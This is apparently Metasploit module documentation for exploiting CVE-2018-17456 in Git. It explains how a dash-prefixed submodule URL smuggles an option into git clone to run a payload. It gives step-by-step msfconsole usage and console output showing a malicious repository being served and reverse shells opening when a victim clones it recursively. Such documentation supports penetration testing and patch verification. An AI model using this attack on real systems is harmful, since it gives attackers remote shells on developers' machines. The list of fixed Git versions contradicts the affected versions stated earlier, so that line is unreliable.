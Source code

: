 ## Description

  This module exploits CVE-2018-17456, which affects Git versions 2.14.5, 2.15.3, 2.16.5, 2.17.2, 2.18.1, and 2.19.1 and lower.  

  When a submodule url which starts with a dash e.g "-u./payload" is passed as an argument to git clone, the file "payload" inside the repository is executed.

  This module creates a fake git repository which contains a submodule containing the vulnerability. The vulnerability is triggered when the submodules are initialised (e.g git clone --recurse-submodules URL)

## Vulnerable Application

  Git can be installed on a variety of operating systems, however
  newer versions will contain the patch for this vulnerability.

  On OSX it can be installed with the XCode command line tools:
  `xcode-select --install`
  
  On Linux it can be installed with apt:
  `sudo apt-get update && sudo apt-get install git`

  You can check the version with `git --version`.
  The fix is included in the following version:
    2.7.6, 2.8.6, 2.9.5, 2.10.4, 2.11.3, 2.12.4, 2.13.5, 2.14.1

## Verification Steps

  Example steps in this format:

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/multi/http/git_submodule_url_exec`
  1. Do: `set LHOST [local host]`
  1. Do: `exploit`
  1. Clone the malicious Git URI and its submodules (e.g `git clone --recurse-submodules GIT_URL`)
  1. You should get a shell

## Options

### GIT_URI

  This is the URI the git repository will be hosted from (defaults to random).

### GIT_SUBMODULE

  This is the URI of the submodule within the git repository (defaults to random).
  The url of this submodule, when cloned, will execute the payload.

## Scenarios


```
msf > use exploit/multi/http/git_submodule_url_exec
msf exploit(multi/http/git_submodule_url_exec) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf exploit(multi/http/git_submodule_url_exec) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.0.1:4444
msf exploit(multi/http/git_submodule_url_exec) > [*] Using URL: http://0.0.0.0:8080/yaDlXuHVnRMMYGQ
[*] Local IP: http://192.168.0.1:8080/yaDlXuHVnRMMYGQ
[*] Server started.
[*] Malicious Git URI is http://192.168.0.1:8080/ogkvs.git
[*] Command shell session 1 opened (192.168.0.1:4444 -> 192.168.0.1:41034) at 2018-10-18 12:41:40 +0000
[*] Command shell session 2 opened (192.168.0.1:4444 -> 192.168.0.1:41036) at 2018-10-18 12:41:41 +0000
```

On the victim side:

```
git clone --recurse-submodules http://192.168.0.1:8080/ogkvs.git
Cloning into 'ogkvs'...
Submodule 'lfr:lr' (-u./rDwoZ) registered for path 'lfr:lr'
Cloning into 'lr'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
fatal: clone of '-u./rDwoZ' into submodule path 'ogkvs/lfr:lr' failed
Failed to clone 'lfr:lr'. Retry scheduled
Cloning into 'lr'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
fatal: clone of '-u./rDwoZ' into submodule path 'ogkvs/lfr:lr' failed
Failed to clone 'lfr:lr' a second time, aborting
```
